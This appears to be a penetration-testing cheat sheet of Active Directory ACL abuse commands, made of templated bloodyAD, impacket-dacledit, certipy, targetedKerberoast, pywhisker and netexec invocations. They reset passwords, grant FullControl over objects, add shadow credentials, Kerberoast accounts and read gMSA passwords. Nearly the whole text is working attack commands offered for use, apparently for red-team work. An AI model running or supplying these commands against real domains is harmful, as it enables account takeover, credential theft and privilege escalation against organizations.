 ### ForceChangePassword

```console
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> --kerberos -u <USERNAME> -p <PASSWORD> set password '<USERNAME>' '<PASSWORD>'
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k set password '<USERNAME>' '<PASSWORD>'
```

### GenericAll

```console
$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal '<USERNAME>' -target-dn 'OU=<GROUP>,DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>'/'<USERNAME>':'<PASSWORD>'
```

#### Shadow Credentials

```console
$ certipy-ad shadow auto -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -account '<USERNAME>'
```

### GenericWrite

#### Targeted Kerberoast

> https://github.com/ShutdownRepo/targetedKerberoast

```console
$ python3 targetedKerberoast.py -v -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>'
```

#### Shadow Credentials

> https://github.com/ShutdownRepo/pywhisker

```console
$ python3 pywhisker.py -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --target '<OBJECT>' --action 'add'
```

or 

```console
$ python3 pywhisker.py -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --target '<OBJECT>' --action 'add' --filename <OBJECT>
```

### ReadGMSAPassword

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --gmsa
```

### WriteDACL

> https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/
